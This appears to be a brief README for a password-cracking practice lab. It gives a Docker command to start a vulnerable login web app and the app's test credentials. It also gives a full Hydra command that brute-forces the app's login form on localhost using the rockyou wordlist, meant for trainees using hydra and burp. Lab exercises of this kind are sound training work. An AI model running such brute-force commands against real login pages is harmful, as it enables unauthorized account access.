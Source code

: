 The command for attacking on localhost: `hydra -l ealderson -P rockyou.txt 127.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:Invalid Credentials" -V`

`sudo docker compose up` to run; username is `ealderson`, password is `qwerty123`. have them attack the web app using `hydra`, `burp`, and `rockyou` provided the username `ealderson`
